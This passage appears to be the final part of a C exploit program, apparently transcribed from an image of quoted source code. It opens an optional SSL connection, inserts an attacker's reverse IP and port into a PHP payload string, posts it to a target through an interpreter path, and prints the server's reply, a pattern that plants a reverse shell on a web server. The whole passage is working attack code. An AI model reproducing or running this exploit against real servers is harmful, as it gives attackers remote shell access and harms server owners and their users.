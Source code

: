     >          printf("SSL_CTX_new error (11)\n");
    >          exit(255);
    >         }
    >     
    >         sslconnection->handle = SSL_new(sslconnection->ctx);
    >         if (!sslconnection->handle) {
    >          printf("SSL_new error (12)\n");
    >          exit(255);
    >         }
    >         if (!SSL_set_fd(sslconnection->handle, sockfd)) {
    >          printf("SSL_set_fd error (13)\n");
    >          exit(255);
    >         }
    >     
    >         if (SSL_connect(sslconnection->handle) != 1) {
    >          printf("SSL_connect error (14)\n");
    >          exit(255);
    >         }
    >        }
    >     
    >        tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
    >        tmpstr = (char*)calloc(tmpsize, sizeof(char));
    >        snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
    >     
    >        writesize = strlen(target) + strlen(interpreter) +
    >          strlen(poststr) + strlen(tmpstr) + 64;
    >        writestr = (char*)calloc(writesize, sizeof(char));
    >        snprintf(writestr, writesize, poststr, interpreter,
    >          target, strlen(tmpstr), tmpstr);
    >     
    >        if (!httpsflag) {
    >          write(sockfd, writestr, strlen(writestr));
    >          readbuf = read_(sockfd);
    >        } else {
    >          SSL_write(sslconnection->handle, writestr, strlen(writestr));
    >          readbuf = sslread(sslconnection);
    >        }
    >     
    >        if (readbuf) {
    >          printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);
    >        } else {
    >         printf("read error (15)\n");
    >         exit(255);
    >        }
    >       }
    >       exit(1);
    >     }

